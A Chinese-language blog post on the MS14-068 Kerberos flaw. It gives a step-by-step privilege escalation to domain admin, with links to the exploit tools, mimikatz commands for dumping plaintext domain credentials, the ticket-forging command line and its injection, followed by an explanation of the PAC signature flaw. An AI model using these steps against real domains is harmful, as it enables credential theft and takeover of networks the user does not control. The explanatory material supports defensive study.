










# MS14-068(CVE-2014-6324)域控提权利用及原理解析 - 紅人 - 博客园

> 原文：[`www.cnblogs.com/feizianquan/p/11760564.html`](https://www.cnblogs.com/feizianquan/p/11760564.html)

# 漏洞利用

### 0x01 漏洞利用前提

1.域控没有打 MS14-068 的补丁(KB3011780)

2.拿下一台加入域的计算机

3.有这台域内计算机的域用户密码和 Sid

### 0x02 工具下载

Ms14-068.exe 下载地址:https://github.com/abatchy17/WindowsExploits/tree/master/MS14-068

PSexec 下载地址:https://github.com/crupper/Forensics-Tool-Wiki/blob/master/windowsTools/PsExec64.exe

mimikatz 下载地址:https://github.com/gentilkiwi/mimikatz/releases

### 0x03 漏洞利用

如果当前用户为域用户

可以直接用 whoami /user 获取 sid

  如果不是只是本地用户可以用 mimikatz 抓取本地的域用户密码

记住 mimikatz 要有管理员权限不然无法抓取内存密码，可以以管理员权限运行。

 输入 privilege::debug 权限提升，在输入 log 会在当前文件夹下生成后面命令执行的结果方便我们查找数据，最后输入 sekurlsa::logonPasswords 抓取密码

 会在当前目录生成 mimikatz 日志文件

 成功获取到明文密码，也获取了域用户 sid 和域控主机名

利用 ms14-068.exe 工具生成伪造的 kerberos 协议认证证书

 MS14-068.exe -u <userName>@<domainName> -p <clearPassword> -s <userSid> -d <domainControlerAddr>

 ms-14-068.exe -u   域用户@域控名  -p 域用户密码 -s 域用户 sid -d 域 ip

 利用 mimikatz.exe 将证书写入，从而提升为域管理员

kerberos::ptc 你的证书名字

 写入成功后，使用 PsExec.exe 以管理员权限运行连接域控

#  原理解析

### 0x04 Kerberos 流程

域内主机请求处理流程

###  0x05 PAC 原理

 Server 收到 Client 发来的 TGS 后，要根据 TGS 中 Client 申明所在的域组，和 Server 上的 ACL 进行对，然后决定给予 Client 什么样的资源访问权限。微软使用 PAC 来表示 TGS 中 Client 申明的域组。PAC（Privilege Attribute Certificate），特权属性证书。

PAC 包含 Client 的 User 的 SID、Group 的 SID。PAC 决定了 Client 的组属性，即决定了 Client 的权限 PAC 为了保证自身的合法性，还包含 2 个签名，Key 为 krbtgt 的 NTLM，签名的内容除了 User SID、Group SID 外，还有其他部分 PAC 作为 TGT 的一部分，是加密的，密钥为 krbtgt 的 NTLM 作 Client 向 KDC 的 AS 模块发起认证请求，AS 返回 TGT 时，会根据 Client 所在的组，生成 PAC，包含 Client 的 User SID、Group SID，以及用于确保 PAC 不被篡改的 2 个签名

 

 将 PAC 作为 TGT 的一部分，发送给 Client,Client 使用 TGT 向 KDC 的 TGS 模块发起访问 Server 服务时，KDC 的 TGS 模块首先解密 TGT，并通过校验 2 个签名，以验证 PAC 的合法性。如果通过验证，KDC 的 TGS 模块用 2 个新的签名替代老的签名来保证 PAC 不被篡改。第一个签名的密钥为 Server 的 NTLM，第二个密钥为 Server 与 Client 的临时会话密钥

 重新签名后的 PAC 被放置在签发的访问票据 TGS 中，使用 Server 的 NTLM 作为密钥被加密保护 Server 收到来自 Client 的 TGS 后，解密 TGS 验证合法性，校验 PAC 中的 2 个签名，确认 PAC 的合法性，然后确认 Client 的访问权限

###  0x06 漏洞成因

Client 在发起认证请求时，通过设置 include-PAC 为 False,则返回 TGT 中不会包含 PAC

 

 

**KDC 对 PAC 进行验证时，对于 PAC 尾部的签名算法，虽然原理上规定必须是带有 Key 的签名算法才可以，但微软在实现上，却允许任意签名算法，只要客户端指定任意签名算法，KDC 服务器就会使用指定的算法进行签名验证。因此伪造的任意内容都可以是合法的，直接加上内容的 MD5 值作为签名即可（第一个原因）**

** PAC 没有被放在 TGT 中，放在其它地方。KDC 在仍然能够正确解析出没有放在 TGT 中的 PAC 信息 PAC 必须是密文，经过 Key 加密的 KDC 会从 Authenticator 中取出来 subkey，把 PAC 信息解密并利用客户端设定的签名算法验证签名（第二个原因）**

**KDC 验证缺少 PAC 的 TGT 成功后，再验证不在 TGT 中 的 PAC 的合法性。如果 2 个均验证成功，KDC 把 PAC 中的 User SID、Group SID 取出来，重新使用进行签名，签名算法和密钥与设置 inclue-pac 标志位为 TRUE 时一模一样。将将新产生的 PAC 加入到解密后的 TGT 中，再重新加密制作全新的 TGT 发送给 Client，不是 TGS（第三个原因）**

0x07 参考

原理理解部分来自------安全牛

http://www.freebuf.com/vuls/56081.htmlhttps://www.secpulse.com/archives/32859.html